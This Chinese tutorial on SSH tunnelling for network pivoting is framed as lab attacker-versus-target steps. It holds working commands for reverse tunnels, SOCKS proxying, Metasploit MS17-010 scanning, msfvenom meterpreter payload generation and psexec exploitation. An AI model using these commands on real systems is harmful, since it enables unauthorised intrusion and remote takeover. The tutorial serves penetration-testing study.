


SSH隧道介绍与实战
0x01 SSH隧道简介
SSH会自动加密、解密所有SSH客户端和服务端之前的网络数据，还能将其他TCP端口的网络数据通过SSH连接进行转发，并且自动提供了响应的解密服务
这一过程称作“SSH隧道(tunneling)”
0X02 SSH隧道用途
本地转发、远程转发、动态转发，打通内外网
0X03 SSH隧道的优势
- 加密SSH Client到SSH Server端的数据
- 突破防火墙限制，完成一些无法建立TCP的连接（SSH隧道加密传输，C/S模式的架构）
0X04 SSH隧道前提条件
服务端配置文件：/etc/ssh/sshd_config 【必要条件】
客户端配置文件：/etc/ssh/ssh_config
用户配置文件：.ssh/config
如下参数开启：
PasswordAuthentication yes #开启密码登录
AllowTcpForwarding yes #是否允许TCP转发，默认值=yes
GatewayPorts yes #是否允许远程主机连接本地的转发端口，默认值=no；yes---允许任何人连接到转发端口，若在公网，任何人都可以连接转发端口
#当为clientspecified 客户端需指定ip。eg：ssh -CfNg -L 1.1.1.1:187:192.168.22.22:22 root@192.168.1.11 -p 80 (意味着只有ip为1.1.1.1的客户端才能连接隧道)
TCPKeepAlive yes #指定系统是否向客户端发送TCP keepalive消息，默认yes，保活，防止ssh断开0X05 SSH隧道用到的参数
0X06 SSH隧道的种类
0X0601【本地端口转发】，【正向tcp隧道】，多用于从外网能看到victim的ip
【命令格式】
ssh -CfNg -L Target1上要开放的端口:Target2的IP:Target2的端口 root@Target1的IP -p 22
这里用ssh举例：
【Target1】上：（跳板机）
开启隧道：ssh -CfNg -L 187:192.168.22.22:22 root@192.168.1.11 -p 22
【attacker】上：验证转发效果
从attacker[192.168.8.10]上, ssh root@192.168.1.11 -p 187
经过ssh隧道，到达了target2[192.168.22.22]
此时【Target1】端口监听情况
0X0602【远程端口转发】（多用于公网无法通过IP连通Target1的情况）
【命令格式】
ssh -CfNg -R Target1端口:Target2:Target2端口 root@attacker的ip -p attacker端口
【Target1上】
ssh -CfNg -R 3389:192.168.22.22:22 root@192.168.8.190 -p 22
执行后，本机创建一个ssh隧道到192.168.8.190 端口22
【attcker机上】
在attacker上，会发现，隧道端口为3389，
注意，这里是监听在127.0.0.1 上，如果想从另外的区域连接attacker的3389 端口，需要将该端口监听到0.0.0.0 地址上。此时用到rinetd
【非必选项】若有从更上一层跳转到attacker时，可以使用rinetd，进行端口重定向
apt-get install rinetd
配置端口映射
echo "0.0.0.0 389 127.0.0.1 3389" >> /etc/rinetd.conf
systemctl start rinetd验证隧道情况：
可以看到，已经从attacker机上，经过跳板机（Target1）顺利登录Target2机（不出外网）
FAQ： 如果从attacker上连接映射隧道端口3389时，出现报错，请检查attacker的/etc/ssh/ssh_config （因为测试attacker作为ssh client 连接隧道服务器（192.168.1.11））
0X0603【动态端口转发】
动态端口转发，其实是建立了一个ssh正向加密的socks4/socks5代理通道，任何支持socks4和socks5协议的程序都可以使用这个加密通道来进行网络流量
简称：正向加密socks
这种比上面的更好玩，可以通过支持socks的程序，将流量经socks端部转发
新建socks代理命令
ssh -CfNg -D local_listen_port user@隧道主机IP 隧道端口 #监听127.0.0.1
或
ssh -CfNg -D 0.0.0.0:local_listen_port user@tunnel_host tunnel_port #监听0.0.0.0
0X07 让我看一个例子：
SSH隧道+扫描内网主机
使用attacker机器上的metasploit，扫描内网Target3机器

留个5分钟，想想…..如何操作呢？
ok，让我们开始
1：建立反向隧道（较常用）
Target1机器上执行：
ssh -CfNg -R 1187:192.168.22.22:22 root@192.168.8.190 -p 22 [反向ssh隧道]
attacker机器上执行：
a) 验证隧道：ssh root@127.0.0.1 -p 1187
b) 建立socks代理: ssh -CfNg -D 0.0.0.0:1287 root@127.0.0.1 -p 1187
启动metasploit，并设置socks代理，扫描Target3
msf5 > setg proxies socks5:127.0.0.1:1287
proxies => socks5:127.0.0.1:1287
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) >set rhosts 192.168.33.33
msf5 auxiliary(scanner/smb/smb_ms17_010) >set threads 10
msf5 auxiliary(scanner/smb/smb_ms17_010)>runok，是不是很好用呢？嘎嘎！有种深入敌营的感觉
0X08【双重加密】
使用“ssh隧道+rc4双重加密” 去链接目标内网下制定机器上的meterpreter
- 用msfvenom生成bind的rc4 payload，并将rc4.exe 传入目标机器Target3中，并执行(这个得看你如何操作了)
msfvenom -p windows/meterpreter/bind_tcp_rc4 rc4password=GoodGoodStudy lport=443 -f exe -o 1.exe （-f exe生成windows二进制文件，linux为 -f elf）- 回到metasploit机器上，挂socks代理，启动反弹 shell监听任务。直接bind链接到目标内网中的meterpreter下
注意：如果反弹，因为我们使用的是socks，需要打开反弹经过代理开关。setg ReverseAllowProxy true 否则默认不走代理回弹
用msfvenom生成bind的rc4 payload，并将rc4.exe 传入目标机器Target3中，并执行 msfvenom -p windows/meterpreter/bind_tcp_rc4 rc4password=GoodGoodStudy lport=443 -f exe -o 1.exe
先拿反弹shell
windows7 机器
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp_rc4
exploit

上传rc4.exe （exit退出 windows-shell）
接下来测试rc4.exe
msf5 > setg proxies socks5:192.168.8.190:1287
msf5 > setg ReverseAllowProxy true
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp_rc4
msf5 exploit(multi/handler) > set rc4password GoodGoodStudy
msf5 exploit(multi/handler) > set rhost 192.168.33.33
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) >
[*] Started bind TCP handler against 192.168.33.33:443此时在windows测运行rc4.exe 机器就会上线
《免责申明》
该文章仅限用于技术学习和扩容认知，研究为目的；
不得用于非法用途，否则，一切后果用户自负，与本文作者无关